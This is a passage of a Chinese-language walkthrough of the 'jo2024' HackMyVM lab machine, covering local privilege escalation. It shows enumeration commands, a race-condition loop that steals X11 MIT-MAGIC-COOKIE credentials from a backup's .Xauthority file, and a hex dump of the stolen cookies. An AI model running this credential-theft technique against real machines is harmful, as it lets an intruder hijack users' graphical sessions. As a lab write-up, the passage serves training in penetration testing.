 ```bash

echo "Copy complete. All files verified !"
```

看上去是我们想要的，但是找不到利用方法，先搜集一下其他的信息：

```bash
(remote) www-data@jo2024.hmv:/tmp$ echo $PATH
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
(remote) www-data@jo2024.hmv:/tmp$ /usr/sbin/getcap -r / 2>/dev/null
/usr/bin/slock cap_dac_override,cap_sys_resource=ep
/usr/bin/ping cap_net_raw=ep
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper cap_net_bind_service,cap_net_admin=ep
(remote) www-data@jo2024.hmv:/tmp$ file /usr/bin/slock
/usr/bin/slock: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=1daad7fee7f614053398b6649689adb3d9e318b2, for GNU/Linux 3.2.0, stripped
```

上传`linpeas.sh`以及`pspy64`：

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202408212019483.png" alt="image-20240821173754867" style="zoom:50%;" />

果然是定时任务，看来就是要在这个脚本想办法了！

由于一般文件夹创立权限为`755`或者`775`，故在脚本运行过程中可以尝试竞争出相关文件：

```bash
(remote) www-data@jo2024.hmv:/backup$ while true; do cat .Xauthority >> /tmp/log 2>/dev/null;sleep 0.01; done
^C
(remote) www-data@jo2024.hmv:/backup$ cat /tmp/log
debian11MIT-MAGIC-COOKIE-1�>7�
�EXJ[���f�debian0MIT-MAGIC-COOKIE-1������m�lJ���

jo2024.hmv0MIT-MAGIC-COOKIE-1��q���%���(ȕ���
..............
```

有师傅发了一个参考文献：https://book.hacktricks.xyz/network-services-pentesting/6000-pentesting-x11#screenshots-capturing

```bash
(remote) www-data@jo2024.hmv:/backup$ w
 12:37:41 up  3:08,  1 user,  load average: 0.02, 0.07, 0.04
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
vanity   tty7     :0               09:29    3:08m  0.00s  0.08s /usr/bin/lxsession -s LXDE -e LXDE
```

直接把它取保候审了！！上传一个busybox！

```bash
(remote) www-data@jo2024.hmv:/tmp$ wget http://192.168.10.105:8888/busybox
(remote) www-data@jo2024.hmv:/tmp$ chmod +x busybox 
(remote) www-data@jo2024.hmv:/tmp$ ./busybox xxd log
00000000: 0100 0006 6465 6269 616e 0002 3131 0012  ....debian..11..
00000010: 4d49 542d 4d41 4749 432d 434f 4f4b 4945  MIT-MAGIC-COOKIE
00000020: 2d31 0010 e23e 37c8 0ab2 4558 4a5b f010  -1...>7...EXJ[..
00000030: c6d3 6685 0100 0006 6465 6269 616e 0001  ..f.....debian..
00000040: 3000 124d 4954 2d4d 4147 4943 2d43 4f4f  0..MIT-MAGIC-COO
00000050: 4b49 452d 3100 10f9 9d8e bcf0 f56d 8f00  KIE-1........m..
00000060: 036c 4aac edb2 0c01 0000 0a6a 6f32 3032  .lJ........jo202
00000070: 342e 686d 7600 0130 0012 4d49 542d 4d41  4.hmv..0..MIT-MA
00000080: 4749 432d 434f 4f4b 4945 2d31 0010 a4d5  GIC-COOKIE-1....
00000090: 7190 b1f2 25fe f8e4 28c8 959e b4f2 0100  q...%...(.......
000000a0: 0006 6465 6269 616e 0002 3131 0012 4d49  ..debian..11..MI
000000b0: 542d 4d41 4749 432d 434f 4f4b 4945 2d31  T-MAGIC-COOKIE-1
000000c0: 0010 e23e 37c8 0ab2 4558 4a5b f010 c6d3  ...>7...EXJ[....
```